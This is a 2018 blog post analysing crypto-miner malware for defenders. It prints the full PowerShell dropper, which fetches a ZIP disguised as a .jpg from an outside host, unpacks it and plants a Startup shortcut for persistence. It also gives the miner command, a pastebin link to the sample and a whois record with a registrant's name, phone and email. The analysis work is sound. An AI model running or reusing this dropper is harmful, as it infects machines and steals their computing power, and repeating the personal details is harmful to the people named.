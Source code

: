 ```yaml
---
layout: post
title:  "Rise of the Crypto Miner Malware"
date:   2018-06-22 13:49:33 +0000
tags: [malware, bitcoin, crypto, pentest, redteam, blueteam]
---
```

![](/blog/assets/minergate.png)

We’ve been sitting on this for some time. But as we were tiding our notes we stumbled across this draft post we never really finished. Sadly, there is not too much to tell. But hopefully this will help other blueteamers, in understanding crypto-mining malware infections?

A copy of the powershell malware can be found on pastebin here:

https://pastebin.com/pxKXKKAY

The investigation started as a bit of powershell:
```
new ActiveXObject(“WScript.Shell”).Run(“powershell -ExecutionPolicy Bypass -windowstyle hidden -noexit -Command “+String.fromCharCode(34)+”$str0 =”http://gul";$str1 = ‘Miner’ ;$TempDir = [System.IO.Path]::GetTempPath();$startup = [environment]::getfolderpath(‘Startup’);$url1 = ($str0)+’fup.co/i/00676/e2zlk0e4qr4c.jpg’;$output1 = ($TempDir+$str1);$wc = New-Object System.Net.WebClient;$wc.DownloadFile($url1, $output1);Start-Sleep -s 30;$proj_files = Get-Item -Path ($TempDir+$str1);ForEach ($file in $proj_files) {;$filenew1 = $str1 + ‘.zip’;Rename-Item $file $filenew1};Expand-Archive -Path ($TempDir+$filenew1) -DestinationPath ($TempDir) -Force;Start-Sleep -s 20;$str3 = ‘update.lnk’;Copy-Item ($TempDir+$str3) -Destination $startup ;Start-Sleep -s 10;Invoke-Item ($startup+$str3)”+String.fromCharCode(34),0,false);
minergate-cli -user djamel4art@gmail.com -bcn 1
```
The payload: http://gulfup.co/i/00676/e2zlk0e4qr4c.jpg

Hexdump of the payload:
```
$ xxd e2zlk0e4qr4c.jpg 
0000000: 504b 0304 1400 0000 0800 665d 3945 22ec PK……..f]9E”.
0000010: 0e6f 40ed 5000 00f0 7a00 1100 0000 6d69 .o@.P…z…..mi
0000020: 6e65 7267 6174 652d 636c 692e 6578 65d4 nergate-cli.exe.
0000030: 3a0b 7414 5596 af3a 954e 8514 e942 ba23 :.t.U..:.N…B.#
0000040: 08ab 7104 7526 0c2e 4405 a7fd 2439 d36d ..q.u&..D…$9.m
0000050: 401b 3ab4 743b cb49 0203 3a31 e320 86ae @.:.t;.I..:1. ..
```
Looks like a ZIP file containing a bitcoin miner! Because the file’s magic bytes are 0x504b = PK.

We can use binwalk to extract parts of the binary:
```
$ binwalk e2zlk0e4qr4c.jpg
DECIMAL HEX DESCRIPTION
 — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — -
0 0x0 Zip archive data, at least v2.0 to extract
5303663 0x50ED6F Zip archive data, at least v2.0 to extract
5461951 0x5357BF Zip archive data, at least v2.0 to extract
5935809 0x5A92C1 Zip archive data, at least v2.0 to extract
7763954 0x7677F2 COBALT boot rom data (Flat boot rom or file system)
8031674 0x7A8DBA Zip archive data, at least v2.0 to extract
...abbreviated...
```
List of extracted files:
```
$ ls
0.zip 806577.zip 8A5FFA.zip e2zlk0e4qr4c.jpg rn.js
50ED6F.zip 8065D3.zip 8BD983.zip libeay32.dll ssleay32.dll
5357BF.zip 8265F6.zip Qt5Core.dll minergate-cli.exe update.lnk
5A92C1.zip 8268D8.zip Qt5Network.dll msvcp110.dll vccorlib110.dll
7A8DBA.zip 83D42C.zip Qt5WebSockets.dll msvcr110.dll
7FC82D.zip 83D454.zip cudart32_60.dll platforms
```
Standard strings against the windows shortcut (update.lnk)
```
$ strings update.lnk 
/C:\
Users
kamel
AppData
Local
Temp
Ka=.
1SPS
rn.js
C:\Users\kamel\AppData\Local\Temp\rn.js
desktop-4tlqnc3
%temp%\rn.js
Minergate
```
The command
```
minergate-cli -user djamel4art@gmail.com -bcn 1
```
Minergate-client comand breakdown
```
minergate-cli -user <account/email> -<coin type> <cores>
```
Therefore:
* account = djamel4art@gmail.com
* coin = Bytecoin
* cores = 1
A list of currency /coin types are:
* bcn Bytecoin
* xmr Monero
* fcn Fantomcoin
* dsh Dashcoin
* qcn QuazarCoin
* xdn DigitalNote
* mcn MonetaVerde
* aeon Aeon coin
* inf8 Infinium-8
## Whois
<pre>
$ whois gulfup.co
Domain Name: gulfup.co
Registry Domain ID: D177495327-CO
Registrar WHOIS Server:
Registrar URL: whois.godaddy.com
Updated Date: 2017–03–11T11:29:25Z
Creation Date: 2017–03–11T11:12:08Z
Registry Expiry Date: 2018–03–10T23:59:59Z
Registrar: GoDaddy.com, Inc.
Registrar IANA ID: 146
Registrar Abuse Contact Email: abuse@godaddy.com
Registrar Abuse Contact Phone: +1.4806242505
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
Domain Status: clientRenewProhibited https://icann.org/epp#clientRenewProhibited
Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
Registry Registrant ID: C177495323-CO
Registrant Name: Abdulaali Alzahrani
Registrant Organization:
Registrant Street: albaha
Registrant Street: albaha
Registrant Street:
Registrant City: albaha
Registrant State/Province: king abdulaziz
Registrant Postal Code: 61008
Registrant Country: SA
Registrant Phone: +966.564401880
Registrant Phone Ext:
Registrant Fax:
Registrant Fax Ext:
Registrant Email: zx_xs@hotmail.com
Registry Admin ID: C177495325-CO
Tech Name: Abdulaali Alzahrani
Tech Organization:
Tech Street: albaha
Tech Street: albaha
Tech Street:
Tech City: albaha
Tech State/Province: king abdulaziz
Tech Postal Code: 61008
Tech Country: SA
Tech Phone: +966.564401880
Tech Phone Ext:
Tech Fax:
Tech Fax Ext:
Tech Email: zx_xs@hotmail.com
Name Server: aragorn.ns.cloudflare.com
Name Server: melissa.ns.cloudflare.com
</pre>
whois on the hosting IP range:
<pre>
$ whois 62.210.139.211
inetnum: 62.210.128.0–62.210.255.255
org: ORG-ONLI1-RIPE
netname: IE-POOL-BUSINESS-HOSTING
descr: IP Pool for Iliad-Entreprises Business Hosting Customers
country: FR
admin-c: IENT-RIPE
tech-c: IENT-RIPE
status: LIR-PARTITIONED PA
mnt-by: MNT-TISCALIFR-B2B
created: 2012–11–02T11:40:24Z
last-modified: 2016–02–22T16:26:23Z
source: RIPE
mnt-routes: MNT-TISCALIFR-B2B
mnt-lower: MNT-TISCALIFR-B2B
For more information about Minergate visit: https://minergate.com/
</pre>
## Conclusion
Fake whois record for the domain, the created update.lnk file leaked a user name ‘kamal’, the minergate account was for a gmail account ‘djamel4art’. As this point we could not progress any further.

